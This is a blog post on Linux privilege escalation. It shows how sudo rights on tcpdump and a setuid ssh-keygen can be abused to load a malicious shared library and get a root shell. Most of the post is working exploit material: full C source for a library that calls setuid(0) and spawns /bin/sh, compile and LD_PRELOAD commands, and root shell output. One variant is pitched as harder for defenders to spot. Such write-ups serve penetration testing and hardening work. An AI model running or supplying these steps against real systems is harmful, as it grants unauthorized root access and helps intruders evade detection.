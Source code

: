 ```yaml
---
title:  "Neat privilege escalation tricks"
categories: [Deep-Dive]
---
```


<blockquote>
  <p>Improvise, adapt and overcome!</p>
</blockquote>

A very well-known privileeg escalation trick involving `tcpdump` with sudo privileges (_very often found in large IT departments!_) relies on executing a script instead of a postrotate command as so<sup>[1](https://gtfobins.github.io/gtfobins/tcpdump/)</sup>:

```bash
$ COMMAND='id'
$ TF=$(mktemp)
$ echo "$COMMAND" > $TF
$ chmod +x $TF
$ tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
```

This is all nice and good but all defenders are already looking for the `-z` command, and this trick is pretty easy to spot. But there's another privilege escalation technique, which also abuses the `sudo` privileges assigned to `tcpdump`, which works as follows:
* Abuse `tcpdump` privileges to create a writable file, in a privileged location:
```bash
$ sudo tcpdump -i eth0 -w /lib/x86_64-linux-gnu/shell.so -Z $USER
```
* Compile a dynamic library (code below):
```bash
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
* Overwrite the `shell.so` file created in the previous step, and make it `suid/sgid`:
```bash
$ cp shell.so /lib/x86_64-linux-gnu/
$ chmod 6755 /lib/x86_64-linux-gnu/shell.so
```
*	Profit!
```bash
$ LD_PRELOAD=shell.so sudo tcpdump
# whoami
root
```

Source code for the POC library:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Another interesting situation I recently run into is `ssh-keygen` binary with `sudo` privileges:
```bash
$ ls -al `which ssh-keygen`
-rwsr-xr-x 1 root root 477488 Aug  4 22:02 /usr/bin/ssh-keygen
```
There's an entry on GTFOBins for this<sup>[2](https://gtfobins.github.io/gtfobins/ssh-keygen/)</sup>, which hints at creating a shared library and load it via the `-D` parameter. This is the tricky part however. If we simply compile the library and try to force `ssh-keygen` to load it, we get the following error:
```bash
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ssh-keygen -D shell.so
shell.so does not contain expected string C_GetFunctionList
provider shell.so is not a PKCS11 library
cannot read public key from pkcs11
```

We can trace the error to the [ssh-pkcs11.c](https://github.com/openssh/libopenssh/blob/ea5ceecdc2037c5e6e807ab3702fbe3f319351d0/ssh/ssh-pkcs11.c#L486) source file:
```c
if (pkcs11_provider_lookup(provider_id) != NULL) {
	error("provider already registered: %s", provider_id);
	goto fail;
}
/* open shared pkcs11-libarary */
if ((handle = dlopen(provider_id, RTLD_NOW)) == NULL) {
	error("dlopen %s failed: %s", provider_id, dlerror());
	goto fail;
}
if ((getfunctionlist = dlsym(handle, "C_GetFunctionList")) == NULL) {
	error("dlsym(C_GetFunctionList) failed: %s", dlerror());
	goto fail;
}
p = xcalloc(1, sizeof(*p));
p->name = xstrdup(provider_id);
p->handle = handle;
/* setup the pkcs11 callbacks */
if ((rv = (*getfunctionlist)(&f)) != CKR_OK) {
	error("C_GetFunctionList failed: %lu", rv);
	goto fail;
}
```
So our library needs to contain a function called `C_GetFunctionList` which accepts a pointer as its only argument and returns an `int`. We change the function definition as follows:
```c
int C_GetFunctionList(int param)
```
Recompile and profit:
```bash
$ gcc -c -o shell.o shell.c -Wall -Werror -fpic -I.
$ gcc -shared -o shell.so shell.o
$ ssh-keygen -D ./shell.so
# id
uid=0(root) gid=0(root) groups=0(root),1000(kali)
```

## References
1. [GTFOBins - tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
2. [GTFOBins - ssh-keygen](https://gtfobins.github.io/gtfobins/ssh-keygen/)
